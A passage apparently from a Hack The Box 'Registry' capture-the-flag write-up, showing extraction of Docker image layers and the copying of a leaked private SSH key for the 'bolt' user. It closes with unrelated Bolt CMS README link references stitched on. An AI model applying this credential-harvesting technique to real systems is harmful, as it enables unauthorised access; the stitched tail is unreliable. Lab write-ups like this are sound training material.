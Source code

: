 	else:
		print "\n[-] Please use -u option to define API Endpoint, e.g. https://IP:Port\n"


if __name__ == "__main__":
	main()

{% endhighlight %}

I then used the following command to untar all the files in the ‘bolt-image’ directory:

{% highlight bash %}
for i in *.tar.gz; do tar -xzvf $i; done

{% endhighlight %}

The resulting folders and files resembled a Linux file system:

{% highlight bash %}
root@fury-battlestation:~/htb/blog/registry/docker_fetch/bolt-image# rm *.tar.gz
root@fury-battlestation:~/htb/blog/registry/docker_fetch/bolt-image# ls -l
total 76
drwxrwx--- 1 root vboxsf 4096 Apr 24  2019 bin
drwxrwx--- 1 root vboxsf 4096 Apr 24  2018 boot
drwxrwx--- 1 root vboxsf 4096 Apr 24  2019 dev
drwxrwx--- 1 root vboxsf 4096 Apr 24  2019 etc
drwxrwx--- 1 root vboxsf 4096 Apr 24  2018 home
drwxrwx--- 1 root vboxsf 4096 May 23  2017 lib
drwxrwx--- 1 root vboxsf 4096 Apr 24  2019 lib64
drwxrwx--- 1 root vboxsf 4096 Apr 24  2019 media
drwxrwx--- 1 root vboxsf 4096 Apr 24  2019 mnt
drwxrwx--- 1 root vboxsf 4096 Apr 24  2019 opt
drwxrwx--- 1 root vboxsf 4096 Apr 24  2018 proc
drwxrwx--- 1 root vboxsf 4096 Apr 24  2019 root
drwxrwx--- 1 root vboxsf 4096 Apr 26  2019 run
drwxrwx--- 1 root vboxsf 4096 Apr 24  2019 sbin
drwxrwx--- 1 root vboxsf 4096 Apr 24  2019 srv
drwxrwx--- 1 root vboxsf 4096 Apr 24  2018 sys
drwxrwx--- 1 root vboxsf 4096 Apr 24  2019 tmp
drwxrwx--- 1 root vboxsf 4096 Apr 24  2019 usr
drwxrwx--- 1 root vboxsf 4096 Apr 24  2019 var
root@fury-battlestation:~/htb/blog/registry/docker_fetch/bolt-image#

{% endhighlight %}

I was then able to find a private SSH key for the ‘bolt’ user:

{% highlight bash %}
root@fury-battlestation:~/htb/blog/registry/docker_fetch/bolt-image# cat ./root/.ssh/config
Host registry
  User bolt
  Port 22
  Hostname registry.htb
root@fury-battlestation:~/htb/blog/registry/docker_fetch/bolt-image# cp ./root/.ssh/id_rsa ~/.ssh/bolt_registry 
root@fury-battlestation:~/htb/blog/registry/docker_fetch/bolt-image#

{% endhighlight %}


[bolt-cm]: https://bolt.cm
[MIT-license]: http://opensource.org/licenses/mit-license.php
[docs]: https://docs.bolt.cm/installation
[support]: https://bolt.cm/community
[travis]: http://travis-ci.org/bolt/bolt
[travis-badge]: https://travis-ci.org/GawainLynch/bolt.svg?branch=release%2F3.3
[codeclimate]: https://lima.codeclimate.com/github/bolt/bolt
[codeclimate-badge]: https://lima.codeclimate.com/github/bolt/bolt/badges/gpa.svg
[sensio-insight]: https://insight.sensiolabs.com/projects/4d1713e3-be44-4c2e-ad92-35f65eee6bd5
[sensio-badge]: https://insight.sensiolabs.com/projects/4d1713e3-be44-4c2e-ad92-35f65eee6bd5/mini.png
[slack-badge]: https://slack.bolt.cm/badge/ratio
[contributing]: https://github.com/bolt/bolt/blob/master/.github/CONTRIBUTING.md